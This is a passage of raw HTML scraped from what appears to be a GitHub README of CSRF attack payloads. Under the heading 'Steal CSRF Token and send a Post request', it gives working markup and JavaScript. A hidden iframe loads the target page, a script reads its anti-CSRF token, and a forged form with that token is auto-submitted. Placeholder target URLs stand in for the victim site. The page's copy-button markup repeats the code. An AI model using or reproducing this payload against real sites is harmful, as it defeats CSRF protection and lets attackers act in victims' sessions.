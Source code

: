 var GET_URL=&quot;http://google.com?param=VALUE&quot;
var POST_URL=&quot;http://google.com?param=VALUE&quot;
getTokenJS();
" tabindex="0" role="button">
      <svg aria-hidden="true" height="16" viewBox="0 0 16 16" version="1.1" width="16" data-view-component="true" class="octicon octicon-copy js-clipboard-copy-icon m-2">
    <path fill-rule="evenodd" d="M0 6.75C0 5.784.784 5 1.75 5h1.5a.75.75 0 010 1.5h-1.5a.25.25 0 00-.25.25v7.5c0 .138.112.25.25.25h7.5a.25.25 0 00.25-.25v-1.5a.75.75 0 011.5 0v1.5A1.75 1.75 0 019.25 16h-7.5A1.75 1.75 0 010 14.25v-7.5z"></path><path fill-rule="evenodd" d="M5 1.75C5 .784 5.784 0 6.75 0h7.5C15.216 0 16 .784 16 1.75v7.5A1.75 1.75 0 0114.25 11h-7.5A1.75 1.75 0 015 9.25v-7.5zm1.75-.25a.25.25 0 00-.25.25v7.5c0 .138.112.25.25.25h7.5a.25.25 0 00.25-.25v-7.5a.25.25 0 00-.25-.25h-7.5z"></path>
</svg>
      <svg aria-hidden="true" height="16" viewBox="0 0 16 16" version="1.1" width="16" data-view-component="true" class="octicon octicon-check js-clipboard-check-icon color-text-success d-none m-2">
    <path fill-rule="evenodd" d="M13.78 4.22a.75.75 0 010 1.06l-7.25 7.25a.75.75 0 01-1.06 0L2.22 9.28a.75.75 0 011.06-1.06L6 10.94l6.72-6.72a.75.75 0 011.06 0z"></path>
</svg>
    </clipboard-copy>
  </div></div>
<h3 dir="auto"><a id="user-content-steal-csrf-token-and-send-a-post-request-using-an-iframe-a-form-and-ajax" class="anchor" aria-hidden="true" href="#steal-csrf-token-and-send-a-post-request-using-an-iframe-a-form-and-ajax"><svg class="octicon octicon-link" viewBox="0 0 16 16" version="1.1" width="16" height="16" aria-hidden="true"><path fill-rule="evenodd" d="M7.775 3.275a.75.75 0 001.06 1.06l1.25-1.25a2 2 0 112.83 2.83l-2.5 2.5a2 2 0 01-2.83 0 .75.75 0 00-1.06 1.06 3.5 3.5 0 004.95 0l2.5-2.5a3.5 3.5 0 00-4.95-4.95l-1.25 1.25zm-4.69 9.64a2 2 0 010-2.83l2.5-2.5a2 2 0 012.83 0 .75.75 0 001.06-1.06 3.5 3.5 0 00-4.95 0l-2.5 2.5a3.5 3.5 0 004.95 4.95l1.25-1.25a.75.75 0 00-1.06-1.06l-1.25 1.25a2 2 0 01-2.83 0z"></path></svg></a><strong>Steal CSRF Token and send a Post request using an iframe, a form and Ajax</strong></h3>
<div class="snippet-clipboard-content position-relative overflow-auto"><pre lang="markup"><code>&lt;form id="form1" action="http://google.com?param=VALUE" method="post" enctype="multipart/form-data"&gt;
&lt;input type="text" name="username" value="AA"&gt;
&lt;input type="checkbox" name="status" checked="checked"&gt;
&lt;input id="token" type="hidden" name="token" value="" /&gt;
&lt;/form&gt;

&lt;script type="text/javascript"&gt;
function f1(){
    x1=document.getElementById("i1");
    x1d=(x1.contentWindow||x1.contentDocument);
    t=x1d.document.getElementById("token").value;
    
    document.getElementById("token").value=t;
    document.getElementById("form1").submit();
}
&lt;/script&gt; 
&lt;iframe id="i1" style="display:none" src="http://google.com?param=VALUE" onload="javascript:f1();"&gt;&lt;/iframe&gt;
</code></pre><div class="zeroclipboard-container position-absolute right-0 top-0">
    <clipboard-copy aria-label="Copy" class="ClipboardButton btn js-clipboard-copy m-2 p-0 tooltipped-no-delay" data-copy-feedback="Copied!" data-tooltip-direction="w" value="<form id=&quot;form1&quot; action=&quot;http://google.com?param=VALUE&quot; method=&quot;post&quot; enctype=&quot;multipart/form-data&quot;>
<input type=&quot;text&quot; name=&quot;username&quot; value=&quot;AA&quot;>
<input type=&quot;checkbox&quot; name=&quot;status&quot; checked=&quot;checked&quot;>
<input id=&quot;token&quot; type=&quot;hidden&quot; name=&quot;token&quot; value=&quot;&quot; />
</form>
